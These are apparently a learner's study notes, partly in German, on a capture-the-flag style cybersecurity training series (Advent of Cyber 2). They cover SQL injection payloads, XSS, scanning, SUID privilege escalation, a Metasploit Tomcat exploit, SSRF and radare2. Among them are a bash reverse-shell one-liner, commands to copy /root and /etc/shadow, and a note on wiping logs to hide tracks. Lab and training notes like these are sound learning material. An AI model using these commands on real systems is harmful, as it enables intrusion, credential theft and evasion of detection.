



#Advent of Cyber 2: 

##Day-1

Coockie Info mit F12 abrufen in "Storage"

Coockie is Hexadecimal encoded

Decode with 

Santa's Coockie:

7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a2273616e7461227d

##Day-2

HTTP Params:

https://www.thebestfestivalcompany.co.uk/index.php?snack=mincePie

?snack=mincePie

Filesystem of Webserver to store files:

often something like /uploads, /images, /media, or /resources

Listener for reverse shell

sudo nc -lvnp 443

find possible filetype:

rechtsklick - view page source

Filesystem explore:

http://10.10.22.224/uploads/

##Day-3

BurpSuit

FoxyProxy Plug-in für FireFox

default: 127.0.0.1:8080

BurpsSuit Tabs:

Rechtsklick auf Request -> Send to intruder

##Day-4

####Gobuster

sudo apt install gobuster

install: [install gobuster](https://www.youtube.com/watch?v=D96YoieXn6M)

gobuster dir -u http://example.com -w wordlist.txt -x php,txt,html

[gobuster](http://manpages.ubuntu.com/manpages/cosmic/man1/gobuster.1.html)

[big.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/big.txt)

On Kali Linux:

/usr/share/wordlists/

Options	    Description
-u	        Used to specify which url to enumerate

-w	        Used to specify which wordlist that is appended on the url path i.e
            "http://url.com/word1"
            "http://url.com/word2"
            "http://url.com/word3.php"

-x	        Used to specify file extensions i.e "php,txt,html"

####wfuzz

wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt localhost:80/FUZZ/note.txt

wfuzz -c -z file,mywordlist.txt -d “username=FUZZ&password=FUZZ” -u http://shibes.thm/login.php

wfuzz -c -z file,/home/kali/Desktop/thm.txt -u http://10.10.176.0/api/site-log.php?date=FUZZ

    ...
    000000026:   200        0 L      1 W        13 Ch       "20201125"
    ...

Browser Input:

    http://10.10.176.0/api/site-log.php?date=20201125

[wfuzz](https://manpages.debian.org/buster/wfuzz/wfuzz.1.en.html)

Options	    Description
-c	        Shows the output in color
-d	        Specify the parameters you want to fuzz with, where the data is encoded for a HTML form
-z	        Specifies what will replace FUZZ in the request. For example -z file,big.txt. We're telling wfuzz to look for files by replacing "FUZZ" with the words within "big.txt"
--hc	    Don't show certain http response codes. I.e. Don't show 404 responses that indicate the file doesn't exist, or "200" to indicate the file does exist
--hl	    Don't show for a certain amount of lines in the response
--hh	    Don't show for a certain amount of characters

####SecLists
sudo apt -y install seclists

[SecLists](https://github.com/danielmiessler/SecLists)

/usr/share/seclists/Discovery/Web-Content/big.txt

##Day-5

IP-Box:8000

wishlist.txt

admin

EhCNSWzzFP6sc7gB

hallo' UNION SELECT name, name FROM sqlite_master WHERE type ='table' --

1' union SELECT name, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='sequels' -- 

1' union SELECT title text, kid age FROM sequels -- 

###SQL-Injection

[SQL-CheatSheet](https://www.codecademy.com/articles/sql-commands)

[CheatSheet](https://www.codecademy.com/learn/learn-sql/modules/learn-sql-manipulation/cheatsheet)

SQL             Command	Description
SELECT	        Used to select data from a database.
FROM	        Used to specify which table to select or delete data from.
WHERE	        Used to extract only those records that fulfil a specified condition.
UNION	        Used to combine the result-set of two or more SELECT statements.

    It is important to mention that 1=1 in SQL stands for True (shortly you'll see the reason as to why I mention this).

Here's an example of a username input field written in PHP:

    <?php
        $username = $_GET['username'];
        $result = mysql_query("SELECT * FROM users WHERE username='$username'");
    ?>

Let's say a malicious user provides a quotation mark (') as the username input. Then the SQL code will look like this:

    SELECT * FROM users WHERE username='''

Most commonly used comments for SQLi payloads:

    --+
    
    /*

####Login Bypass with SQL Injection

First, let's find out the reason behind the possibility to do so. Say, our login application uses PHP to check if username and password match the database with following SQL query:

    SELECT username,password FROM users WHERE username='$username' and password='$password'

What happens if we input **' or true --** username field there? This will turn the above query into this:

    SELECT username,password FROM users WHERE username='' or true -- and password=''

The -- in this case has commented out the password checking part, making the application forget to check if the password was correct. This trick allows you to log in to any account by just putting a username and payload right after it.

Note that some websites can use a different SQL query, such as:

    SELECT username,pass FROM users WHERE username=('$username') and password=('$password')

In this case, you'll have to add a single bracket to your payload like so: **') or true; -–** to make it work.

####UNION SQL Injection

UNION SQLi attack consists of 3 stages:

- Finding the number of columns
- Checking if the columns are suitable
- Attack and get some interesting data.
    - Determining the number of columns required in an SQL injection UNION attack

**There are exactly two ways to detect one:**

The first one involves injecting a series of ORDER BY queries until an error occurs. For example:

    ' ORDER BY 1--
    ' ORDER BY 2--
    ' ORDER BY 3--
    ' ...

    # and so on until an error occurs

(The last value before the error would indicate the number of columns.)

The second one (most common and effective), would involve submitting a series of UNION SELECT payloads with a number of NULL values:

    ' UNION SELECT NULL--
    ' UNION SELECT NULL,NULL--
    ' UNION SELECT NULL,NULL,NULL--
    
    # until the error occurs

No error = number of NULL matches the number of columns.

**Finding columns with a useful data type in an SQL injection UNION attack:**

You can probe each column to test whether it can hold string data by replacing one of the UNION SELECT payloads with a string value. In case of 4 you would submit:

    ' UNION SELECT 'a',NULL,NULL,NULL--
    ' UNION SELECT NULL,'a',NULL,NULL--
    ' UNION SELECT NULL,NULL,'a',NULL--
    ' UNION SELECT NULL,NULL,NULL,'a'--

No error = data type is useful for us (string).

**Using an SQL injection UNION attack to retrieve interesting data:**

When you have determined the number of columns and found which columns can hold string data, you can finally start retrieving interesting data.

Suppose that:

- The first two steps showed exactly two existing columns with useful datatype.
- The database contains a table called users with the columns username and password.

In this situation, you can retrieve the contents of the user's table by submitting the input:

    ' UNION SELECT username, password FROM users --

Here's a small list ofhing you'd want to retrieve:

- database()
- user()
- @@version
- username
- password
- table_name
- column_name

    ?id=1' UNION SELECT username, password FROM users -- 

####SQLMap

[SQLMap](http://sqlmap.org)

SQLMap is an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. 

It's an incredible tool that can be learned within minutes. It's already included in THM's AttackBox or you can install it locally by running:

**Install**

    git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev

**Usage**

Navigate to Directory: cd sqlmap-dev/

To get a list of basic options and switches use:

    python sqlmap.py -h

To get a list of all options and switches use:

    python sqlmap.py -hh

**Command**	
--url	        Provide URL for the attack
--dbms	        Tell SQLMap the type of database that is running
--dump	        Dump the data within the database that the application uses
--dump-all	    Dump the ENTIRE database
--batch	        SQLMap will run automatically and won't ask for user input

    sqlmap --url http://tbfc.net/login.php --tables --columns

[SQLMap CheatSheet](https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet)

#####SQLMap & BurpSuite

- Submit a request on the web application we suspect to be vulnerable
- Send the request from the "Proxy" tab to the repeater by right-clicking and pressing "Send to Repeater"
- Notice our request is now in the "Repeater" tab:
    - GET .....
- Finally, save this request by right-clicking and pressing "Save item"

We can then use this request in SQLMap:

    sqlmap -r filename

SQLMap will automatically translate the request and exploit the database for you.

##Day-6

IP-Box:5000

XSS: Cross Sote Scripting

    

####Stored XSS

For example, comments on a blog post, user nicknames in a chat room, or contact details on a customer order. In other words, in any content that persistently exists on the website and can be viewed by victims.

    <!-- Normal comment-->
    

         Your comment goes here
    

    <!--Malicious comment-->
    

         
    

Stored XSS gives an attacker an advantage of 'injecting' malicious JavaScript behind images. By using  attribute it is possible to execute custom JS code when the image is viewed or clicked. For example:

    

In this case, an attacker embeds an image that is going to execute alert('xss') if the user's mouse goes over it.

Say we have a web application that allows users to post their comments under the post.

A malicious picture executes a custom alert('xss') once being viewed. This is the most common example of stored XSS.

####Reflected XSS

An example of this could be malicious javascript in the link or a search field. The code is not stored on the server directly, meaning that a target user should compromise himself by clicking the link.

    <https://somewebsite.com/titlepage?id=> 

Any user that clicks on the link is going to execute the evilcode() function, eventually falling under the XSS attack.

A search query is put after this keyword parameter. The XSS can be exploited by putting a payload instead of the search query.

    The url starts with 10.10.100.27/reflected?keyword=. By adding text onto the keyword, we can perform reflected XSS like 10.10.100.27/reflected?keyword= which results in an alert box with 1 on our screen.

#####detect XSS

through the use of HTML tags, such as <h1></h1>, <b></b> or others. The idea is to try out inputting text with those tags and see if that produces any differences. Any change in text size or color immediately indicates an XSS vulnerability.

###ZAP

[ZAP](https://www.zaproxy.org)

##Day-7

[Wireshark](https://www.wireshark.org)

##Day-8

NMap:

    sudo nmap -sS <ip>

PORT 

80/tcp      http

2222/tcp    EtherNetIP-1

3389/tcp    ms-wbt-server

    sudo nmap -sS -Pn <ip>

Remember that just because a device doesn't respond to ICMP, doesn't mean it isn't online. Windows machines block ICMP by default.

|Flag   |Usage Example          |Description|
|---    |---                    |---|
|-A     |nmap -A x.x.x.x|	    Scan the host to identify services running by matching against Nmap's database with OS detection|
|-O     |nmap -O x.x.x.x|	    Scan the host to retrieve and perform OS detection|
|-p     |nmap -p 22 x.x.x.x|	Scan a specific port number on the host. A range of ports can also be provided (i.e. 10-100) by using the first and last value of the range like so: nmap -p 10-100 x.x.x.x|
|-p-    |nmap -p- x.x.x.x|	    Scan all ports (0-65535) on the host|
|-sV    |nmap -sV x.x.x.x|	    Scan the host using TCP and perform version fingerprinting|

Use Scripts:

[nmap:scrips](https://nmap.org/nsedoc/scripts/)

    nmap --script ftp-proftpd-backdoor -p 21 <ip_address>

Scan http-title:

##Day-9

FTP

The standard for these two connections are the two ports:

Port 20 (Data)

Port 21 (Commands)

Commands involve actions such as listing or navigating directories, writing to files. Whereas, the data port is where actual data such as the downloading/uploading of files are transferred over.

    ftp <ip>

mit anonymous anmelden

|Command	|Description|
|---|---|
|ls	        |List files and directories in the working directory on the FTP server|
|cd	        |Change our working directory on the FTP server|
|get	    |Download a file from the FTP server to our device|
|put	    |Upload a file from our device to the FTP server|

Netcat:

    nc -lvnp 4444

Reverse Shell:

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)

    bash -i >& /dev/tcp/<My-IP>/4444 0>&1

cat flag.txt

##Day-10

Samba

two protocols:

- SMB (Server Message Block) - Natively supported by Windows and not Linux
- NFS (Network File System) - Natively supported by Linux and not Windows

Scan Samba:

enum4linux:

enum4linux -h

enum4linux -U <IP>

enum4linux -S <IP>

Connect to Samba:

We've already learnt two key pieces of information from the previous section:

- Usernames to authenticate as
- Shares that we can access (remembering that shares most likely contain data)

    smbclient //<IP>/<sharename>

|Command	        |Description|
|---|---|
|ls	                |List files and directories in the current location|
|cd <directory>	    |Change our working directory|
|pwd	            |Output the full path to our working directory|
|more <filename>	|Find out more about the contents of a file. To close the open file, you press :q|
|get <filename>	    |Download a file from a share|
|put <filename>	    |Upload a file from a share|

##Day-11

Escalate Privileges

Horizontal Privilege Escalation:

A horizontal privilege escalation attack involves using the intended permissions of a user to abuse a vulnerability to access another user's resources who has similar permissions to you. For example, using an account with access to accounting documents to access a HR account to retrieve HR documents. As the difference in the permissions of both the Accounting and HR accounts is the data they can access, you aren't moving your privileges upwards.

Vertical Privilege Escalation:

A bit more traditional, a vertical privilege escalation attack involves exploiting a vulnerability that allows you to perform actions like commands or accessing data acting as a higher privileged account such as an administrator.

    whoami
    
    echo $0

    /bin/sh - Simple shell
    
    /bin/bash - Shell with autocomplete and reexecute commands

Bash Shell wenn python installiert ist:

    python -c 'import pty; pty.spawn("/bin/bash")'

Search Folder and Document on Machine:

    find / -name id_rsa 2> /dev/null

- We're using find to search the volume, by specifying the root (/) to search for files named "id_rsa" which is the name for private SSH keys, and then using 2> /dev/null to only show matches to us.

Priv Esc Checklist:

- Determining the kernel of the machine (kernel exploitation such as Dirtyc0w)
- Locating other services running or applications installed that may be abusable (SUID & out of date software)
- Looking for automated scripts like backup scripts (exploiting crontabs)
- Credentials (user accounts, application config files..)
- Mis-configured file and directory permissions
- Checkout some checklists that can be used as a cheatsheet for the enumeration stage of privilege escalation:

[g0tmi1k](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation)

[payatu](https://payatu.com/guide-linux-privilege-escalation)

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#linux---privilege-escalation)

SUID:

|Column Letter	|Description	|Example|
|---|---|---|
|[A]	        |filetype (d is a directory - is a file) and the user and group permissions "r" for reading, "w" for write and "x" for executing. |A file with -rw-rw-r-- is read/write to the user and group only. However, every other user has read access only|
|[B]            |the user who owns the file                 |cmnatic (system user)|
|[C]            |the group (of users) who owns the file     | sudoers group|

At the moment, the "examplefiles" are not executable as there is no "x" present for either the user or group. When setting the executable permission (chmod +x filename), this value changes (note the "x" in the snippet below -rwxrwxr):

    -rwxrwxr-x 1 cmnatic cmnatic 0 Dec 8 18:43 backup.sh 

    /etc/sudoers

|Filename	|File Owner	|User who is executing the file	|User that the file is executed as|
|---|---|---|---|
|ex1	|root	    |cmnatic	|root|
|ex2	|cmnatic	|cmnatic	|cmnatic|
|ex3	|service	|danny	    |service|

    whereis cp

Use the given path to cp:

    chmod u+s /usr/bin/cp

Note how the cp executable is owned by "root" and now has the SUID permission set:

    cmnatic@docker-ubuntu-s-1vcpu-1gb-lon1-01:~$ ls -al /usr/bin | grep "cp"
    -rwsr-xr-x 1 root root 153976 Sep 5 2019 cp

The cp command will now be executed as root - meaning we can copy any file on the system. Some locations may be of interest to us:

- copying the contents of other user directories (i.e. bash history, ssh keys, user.txt)
- copying the contents of the "/root" directory (i.e. "/root/flag.txt")
- copy the "/etc/passwd" & "/etc/shadow" files for password cracking

Let's confirm this by using find to search the machine for executables with the SUID permission set: 

    find / -perm -u=s -type f 2>/dev/null

And now using cp to copy the contents of "/root" into our directory ("/home/cmnatic"):

    cp -R /root/ .
    ls -lah /home/<user>/root

LinEnum Script:

    wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

Make File Downloadable:

    python3 -m http.server 8080

Directory with permission:

    /tmp

Download Script from Source:

    wget http://<ip_server>:8080/LinEnum.sh

netcat auf target:

    nc -l -p 1337 > LinEnum.sh

netcat auf eigener maschine:

    nc -w -3 <ip_target> 1337 < LinEnum.sh

auf target berechtigung vergeben:

    chmod +x LinEnum.sh

Script ausführen auf Target:

    ./LinEnum.sh

Spuren verwischen auf Debian und Ubuntu:

- "/var/log/auth.log" (Attempted logins for SSH, changes too or logging in as system users:)
- "/var/log/syslog" (System events such as firewall alerts:)
- "/var/log/<service>/"
    - /var/log/apache2/access.log"
    

Enumation mit LinPeaes.sh oder mit dem SUID Command:

    find / -perm -u=s -type f 2>/dev/null

Suche nach exploitbaren Anwendungen auf [GTFObins](https://gtfobins.github.io)

z.b. bash:

    bash -p

##Day-12

CGI

    sudo nmap -sS -Pn <ip_target>

[Apache Tomcat 9.0.17](https://www.exploit-db.com/exploits/47073)

    msfconsole

    search 2019-0232
    
    use 0  <-- kann variieren
    
    options
    
    set lhost <ip_host>
    
    set rhost <ip_target>
    
    set port 8080
    
    set targeturi /cgi-bin/elfwhacker.bat
    
    run

    <ENTER>
    
    shell

##Day-13

[dirtycow](https://dirtycow.ninja)

[raw dirtycow](https://raw.githubusercontent.com/Gigi4/code/master/dirty.c)

##Day-14

Name Search:

https://namechk.com

https://whatsmyname.app

https://namecheckup.com

https://github.com/WebBreacher/WhatsMyName

https://github.com/sherlock-project/sherlock

ohne passwort:

https://haveibeenpwned.com

Mit Passwort:

https://scylla.sh/api

https://dehashed.com/?__cf_chl_jsch

Image Search:

http://exif.regex.info/exif.cgi

https://images.google.com/?gws_rd=ssl

https://yandex.com/images/

https://tineye.com

https://www.bing.com/visualsearc

##Day-15

Python

Now let's say we wanted to add this variable to another variable. A common misconception is that we take the bucket itself and use that. But in Python, we don't. We pass by reference. As in, we merely pass a location of the variable — we do not pass the variable itself.

Operators

Let's talk about operators. An operator is something between 2 variables/values and does something to them. For example, the addition operator:

    x = 3 + 1 # x = 4 

Python supports many maths operators:

    3 + 1 
    
    3 / 1 # divided by 
    
    3 * 4 # times 
    
    2 ** 2 # 2 to the power of 2 
    
    2 % 3 # 2``mod 3 

Now the cool thing, operators don't just work on numbers. They work on strings too. And lists. And dictionaries.

    [3, 2] + [6, 7] # [3, 2, 6, 7] 

    "Hello, " + "World!" # "Hello, World!" 

Boolean

We'll go through one you may already know:

    True or False # True 

The or operator returns true when either the left side or right side is True.

Let's quickly go through all the others

    True and True # True 

This returns True if and only if both the left and right sides are True

    not True # False 

not negates the right-hand side expression. So the opposite of True is False.

We can negate the Or statement like so:

    not (True or False) # False 

Now it only returns True when both sides of the or are False.

If Statement

So for example, if the list is not empty:

    x = [6] if x: print("I run!") 

Because x is non-empty, it has a truthy value.  Which means this reads as "If True" and it runs. If it read as "If False" it does not run.

If statements only run if the condition is True.

Now let's see it in action.

    name = input("What is your name? ") 

We can take user input using the input() function. Now let's say we are a wide bouncer at Santa's Grotto. We only want to let people in that have a name in our special club. First, we need to create a list of names. Can you guess what we'll be using for this?

    names = ["Skidy", "DorkStar", "Ashu", "Elf"] 

Great! And now if we have a string, such as Jabba, how do we check if the name is in the list?

    "Jabba" in names # False 

Now we want to print a special little message if and only if the users inputted name appears in our list. We can do this with:

    names = ["Skidy", "DorkStar", "Ashu", "Elf"]  
    name = input("What is your name? ")  
    if name in names:
         print("The Wide One has allowed you to come in.") 

Now, what if their name does not appear in the list of names? We can use an else clause.

    names = ["Skidy", "DorkStar", "Ashu", "Elf"]  
    name = input("What is your name? ")  
    if name in names:      
        print("The Wise One has allowed you to come in.")  
    else:      
        print("The Wise One has not allowed you to come in.")

One Line If Statements

    age = 12 name = "Jabba" if age == 12 else "Skidy" print(name) # 'Jabba' 

Loops

    names = ["Skidy", "DorkStar", "Ashu", "Elf"]  
    for name in names:
         print(name)

For every name in the list of names, do something (in this case — print the name).

For loops can iterate over the elements of any iterable. Let's look at a function which returns an iterable, range.

Range returns a list of numbers in a range. So to loop between 1 and 9 we would do:

    range(1, 9)

Range is inclusive, so 1 and 9 are included. Now to loop over this: 

    for i in range(1, 9): print(i) 

Note: We often use i as the variable in a for loop as it stands for "item".

Libraries

    pip3 install requests beautifulsoup4

Something very cool you can do with these 2 libraries is the ability to extract all links on a webpage.

    # Import the libraries we downloaded earlier 
    # if you try importing without installing them, this step will fail 
    from bs4 import BeautifulSoup 
    import requests  
    
    # replace testurl.com with the url you want to use. 
    # requests.get downloads the webpage and stores it as a variable 
    html = requests.get('testurl.com')  
    
    # this parses the webpage into something that beautifulsoup can read over 
    soup = BeautifulSoup(html, "lxml") 
    # lxml is just the parser for reading the html  
    
    # this is the line that grabs all the links # stores all the links in the links variable 
    links = soup.find_all('a href')  
    for link in links:      
        # prints each link     
        print(link)

[Python Zero to Hero](https://polymath.cloud/python/)
[Python Moduluo Operator in Practice](https://realpython.com/python-modulo-operator/)
[Automate the Boring Stuff with Python](https://automatetheboringstuff.com/)

Pass by reference

Code to analyse for Question 5:

    x = [1, 2, 3]
    
    y = x
    
    y.append(6)
    
    print(x)

##Day-16

Python Scripting

[bpython](https://bpython-interpreter.org)

Requests:

get html from Webpage:

    html = requests.get('testurl.com')

Script to get Links from Webpage:

linkgrabber.py:

    #!/usr/bin/env python3
    
    # Import the libraries we downloaded earlier 
    # if you try importing without installing them, this step will fail 
    from bs4 import BeautifulSoup 
    import requests  
    
    # replace testurl.com with the url you want to use. 
    # requests.get downloads the webpage and stores it as a variable 
    html = requests.get('http://<IP_Target>')  
    
    # this parses the webpage into something that beautifulsoup can read over 
    soup = BeautifulSoup(html, "lxml") 
    # lxml is just the parser for reading the html  
    
    # this is the line that grabs all the links # stores all the links in the links variable 
    links = soup.find_all('a')  
    for link in links:      
        # prints each link 
        if "href" in link.attrs:
            print(link["href"])

python3 linkgrabber.py | uniq

apibruter.py:

    #!/usr/bin/env python3
    
    import requests

    for api_key in range(1,100,2):
        print(f"api_key {api_key}")
        html = request.get(f'http://<ip_target>/api/{api_key}')
        print(html.text)

python3 apibruter.py

f = Formatierter String

range = (1,100,2) --> geht von 1 bis 100 in 2er Schritten (alle ungeraden Zahlen)

##Day-17

Reverse Engineering

we’ll be looking at the Intel x86-64 instruction set architecture which is most commonly found today

We’ll be using radare2 to do this - radare2 is a framework for reverse engineering and analysing binaries. It can be used to disassemble binaries(translate machine code to assembly, which is actually readable) and debug said binaries(by allowing a user to step through the execution and view the state of the program).

[radare2](https://github.com/radareorg/radare2)

    r2 -d ./file1

    aa <-- Dauert sehr lange... Geduld :)

    afl

    afl | grep main

As seen here, there actually is a function at main. Let’s examine the assembly code at main by running the command pdf @main Where pdf means print disassembly function.

    pdf @main

The core of assembly language involves using registers to do the following: 
Transfer data between memory and register, and vice versa
Perform arithmetic operations on registers and data
Transfer control to other parts of the program Since the architecture is x86-64, the registers are 64 bit and Intel has a list of 16 registers:

|Initial Data Type	|Suffix	|Size (bytes)|
|---|---|---|
|Byte	            |b	    |1|
|Word	            |w	    |2|
|Double Word	    |l      |4|
|Quad	            |q	    |8|
|Single Precision   |s	    |4|
|Double Precision   |l      |8|

When dealing with memory manipulation using registers, there are other cases to be considered:

    (Rb, Ri) = MemoryLocation[Rb + Ri]
    D(Rb, Ri) = MemoryLocation[Rb + Ri + D]
    (Rb, Ri, S) = MemoryLocation(Rb + S * Ri]
    D(Rb, Ri, S) = MemoryLocation[Rb + S * Ri + D]

Some other important instructions are:

- leaq source, destination: this instruction sets destination to the address denoted by the expression in source
- addq source, destination: destination = destination + source
- subq source, destination: destination = destination - source
- imulq source, destination: destination = destination * source
- salq source, destination: destination = destination << source where << is the left bit shifting operator
- sarq source, destination: destination = destination >> source where >> is the right bit shifting operator
- xorq source, destination: destination = destination XOR source
- andq source, destination: destination = destination & source
- orq source, destination: destination = destination | source

Now let’s actually walk through the assembly code to see what the instructions mean when combined.

|;|object|type|r2 reference|@|memory location|
|---|---|---|---|---|---|
|; |var |int |local_ch |@ |rdp-0xc|
|; |var |int |local_8h |@ |rdp-0x8|
|; |var |int |local_4h |@ |rdp-0x4|

The first 3 instructions are used to allocate space on that stack (ensures that there’s enough room for variables to be allocated and more). We’ll start looking at the program from the 4th instruction (movl $4). We want to analyse the program while it runs and the best way to do this is by using breakpoints.

A breakpoint specifies where the program should stop executing. This is useful as it allows us to look at the state of the program at that particular point. So let’s set a breakpoint using the command db  in this case, it would be db 0x00400b55 To ensure the breakpoint is set, we run the pdf @main command again and see a little b next to the instruction we want to stop at.

set breakpoint:

    db 0x00400b55
    
    pdf @main

Running dc will execute the program until we hit the breakpoint. Once we hit the breakpoint and print out the main function, the rip which is the current instruction shows where execution has stopped. From the notes above, we know that the mov instruction is used to transfer values.  This statement is transferring the value 4 into thelocal_ch variable. To view the contents of the local_ch variable, we use the following instruction px @memory-address In this case, the corresponding memory address for local_ch will be rbp-0xc ( from the first few lines of @pdf main) This instruction prints the values of memory in hex:

    dc <-- d continue

    pdf

    px @ rbp-0xc

Die erste 2 Bytes der Variable **rbp-0xc** sind leer:

This shows that the variable currently doesn’t have anything stored in it (it’s just 0000). Let’s execute this instruction and go to the next one using the following command (which only goes to the next instruction) ds If we view the memory location after running this command, we get the following:

    ds <-- d step

    pdf
    
    px @ rbp-0xc

Durch **ds** wurde ein Stritt weiter gesprungen:

Die ersten 2 Bytes der Variable **rbp-0xc** sind nun mit dem Wert **"04"** belegt:

    ds
    
    px @ rbp-0x8

Ein Schritt weiter:

Die ersten 2 Bytes der Variable **rbp-0x8** sind nun mit dem Wert **"05"** belegt:

If we go to the instruction movl local_8h, %eax, we know from the notes that this moves the value from local_8h to the %eax register. To see the value of the %eax register, we can use the command:

    dr

Um eine Veränderung zu sehen muss die Operation "mov eax, dword [local_ch]" stattgefunden haben:

    ds

    pdf

    dr

Variable local_ch wurde **mov edx** in **rdx** geschrieben:

    ds

    pdf

Variable local_8h wurde **mov eax** in **rax** geschrieben:

Variablen werden nun addiert mit "add eax, edx" und in eax (rax) gespeichert:

Addition wurde in rax gespeichert:

In den weiteren Operationen wird eax wieder frei gemacht, da dort werden resultate von Funktionen gespeichert:

####To finalise our workflow...

The general formula for working through something like this is:

set appropriate breakpoints
use ds to move through instructions and check the values of register and memory
if you make a mistake, you can always reload the program using the ood command
You may find this [radare2 cheatsheet](https://scoding.de/uploads/r2_cs.pdf) useful in your adventures...

####Challenge

    r2 -d challenge1
    
    aa
    
    pdf @main

breakpoint to first movl local_ch

    db 0x00400b62
    
    dc
    
    dr
    
    ds

rax after imull:

    dr
    
    pdf
    
    ds
    
    dr

Value of Local_4h:

    px @ rbp-0x4

##Day-18

.NET Framework

https://dotnet.microsoft.com

https://github.com/icsharpcode/ILSpy

https://www.jetbrains.com/decompiler/

https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)

##Day-19

Server-Side Request Forgery

http://10.10.147.127/?proxy=http%3A%2F%2Flist.hohoho%3A8080%2Fsearch.php%3Fname%3DTib3rius

After CyberChef:

http://list.hohoho:8080/search.php?name=Tib3rius

The most obvious thing we can try to do first is to fetch the root of the same site. Browse to:

http://10.10.147.127/?proxy=http%3A%2F%2Flist.hohoho%3A8080%2F 

Try changing the port number from 8080 to just 80 (the default HTTP port):

http://10.10.147.127/?proxy=http%3A%2F%2Flist.hohoho%3A80

http://10.10.147.127/?proxy=http%3A%2F%2Flist.hohoho%3A22

http://10.10.147.127/?proxy=http%3A%2F%2Flocalhost

http://10.10.147.127/?proxy=http%3A%2F%2Flist.hohoho.localtest.me

Generate all possible tcp ports:
for i in range {1..65536}; do echo $i >> ports.txt; done; 

ffuf -u http://<ip>/?proxy=http%3A%2F%2Flist.hohoho%3AFUZZ%2F -w ports.txt --fw 612

##Day-20

Powershell

get-help

To list the contents of the current directory we are in, we can use the Get-ChildItem cmdlet.  There are various other options we can use with this cmdlet to enhance its capabilities further.

- Path Specifies a path to one or more locations. Wildcards are accepted.
- File / -Directory To get a list of files, use the File parameter. To get a list of directories, use the Directory parameter. You can use the Recurse parameter with File and/or Directory parameters.
- Filter Specifies a filter to qualify the Path parameter.
- Recurse Gets the items in the specified locations and in all child items of the locations.
- Hidden To get only hidden items, use the Hidden parameter.
- ErrorAction SilentlyContinue Specifies what action to take if the command encounters an error.

    cd Documents
    
    ls -hidden
    
    cat e1fone.txt
    
    cd ..
    
    ls
    
    cd desktop
    
    cd elf2wo
    
    ls
    
    cat e70smsW10Y4k.txt
    
    cd ..
    
    cd ..
    
    cd Windows
    
    cd System32
    
    ls -hidden -directory -filter '*3*'
    
    cd 3lfthr3e
    
    ls -hidden
    
    cat 1.txt
    
    cat 1.txt | measure-object -word
    
    (cat 1.txt | select-object)[551, 6991]
    
